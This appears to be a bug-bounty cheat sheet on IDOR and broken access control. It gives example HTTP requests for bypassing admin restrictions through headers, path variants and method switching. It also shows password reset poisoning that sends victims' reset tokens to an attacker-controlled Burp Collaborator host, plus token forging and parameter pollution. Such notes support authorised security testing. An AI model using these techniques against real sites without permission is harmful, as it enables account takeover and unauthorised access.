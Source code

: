 # idor & broken access control

## tips & tricks

***1. accessing unprotected/hidden administrative endpoints***
- look for admin paths in common web files
	- robots.txt, sitemap.xml, .well-known/security.txt
	- waybackurls, hakrawler
	- commented lines in HTML source code, JavaScript code
- what determines a user can access or not? sessionId, access token?
- what is the HTTP status code?
  
***2. hidden parameter leads to privilege escalation***
- /login, /profile or any page with ability to interact with user's data
- fuzz for hidden parameters in the url or request body using arjun
	- ?role=admin, ?admin=True, ?priv=high
 
***3. bypass deny access when accessing authenticated path***
- supply a new header like: X-Original-URL or X-Rewrite-URL
```
GET /admin HTTP/1.1			403 Denied Access
Session: normalusertoken
```
```
GET / HTTP/1.1
X-Original-URL: /admin			200 Access Granted
Session: normalusertoken
```
- path discrepancies
```
/admin 	      403 Denied Access >> /ADMIN 	200 Access Granted
/admin/files 	403 Denied Access >> /admin/files/ 	200 	Access Granted
/admin/deleteUser	403 Unauthorized >> /admin/deleteUser.php	200 Success
```
- bypass deny access via referer header
```
GET /admin/deleteUser HTTP/1.1
Session: normalusertoken		403 Denied Access
Referer: /profilePage
```
```
GET /admin/deleteUser HTTP/1.1
Session: normalusertoken		200 Access Granted
Referer: /admin
```

***4. bypass unauthorized action using different HTTP method***
- instead of POST, try GET or PUT
```
POST /admin-roles HTTP/1.1
Session: normalusertoken		403 Unauthorized

username=normaluser&action=upgrade
```
```
GET /admin-roles?username=normaluser&action=upgrade		200 Success
Session: normalusertoken
```
  
***5. skip multi-step process***
- simulate the multi-step process to understand how it works
- if there are 3 steps involved, see if you can skip the 2nd process and goes directly to the 3rd step
- this typically works for business logic error as well
  
***6. bypass location-based access control***
- stumble a page that only allow users from a certain country
- use proxy or vpn and see if you can bypass deny access from other countries

***7. leak password reset poisoning via parameter tampering***
- a parameter (resetPasswordUrlPrefix, urlForwarder, etc..) during requesting for password reset link
- supply a payload from burp collaborator to the parameter and check for DNS/HTTPS interactions when clicking on password reset link. Check if token is leaked within interactions

***8. forging a password reset token***
- find out which part of the token is static and what changes?
- can the changed part be bruteforce?
- make the duration between 2 requests of password reset token creation shorter (use intruder), maybe the characters are going to be more predictable

***9. password reset poisoning via host header***
- add a new Host header with a controlled domain and see if token is leaked within HTTP interactions
```
GET /passwordResetLink HTTP/1.1
Host: example.com
Host: burpcollaborator.io	[1]
X-Forwarded-Host: burpcollaborator.io	[2]
```
- make a GET request to absolute url but replace the Host header value and see if token is leaked within HTTP interactions
```
GET https://example.com/passwordResetLink HTTP/1.1
Host: burpcollaborator.io
```
<details>
<summary>writeups</summary>
	
* [Acunetix article](https://www.acunetix.com/blog/articles/password-reset-poisoning/)
  
</details>

***10. password reset token leaked in referer header***
- request for password reset link
- in the password reset page, click on any social media link then intercept the request
- notice the password reset token is disclosed in the referer header
<details>
<summary>writeups</summary>
	
* [342693](https://hackerone.com/reports/342693)
* [272379](https://hackerone.com/reports/272379)
  
</details>

***11. polluting parameter to get password reset link***
- request for password reset link with other user email and intercept the request
- add another email parameter with your own email and send the request
- the password reset link will be sent to both victim and you
<details>
<summary>writeups</summary>
	
* [Readme.com ATO](https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be)
  
</details>

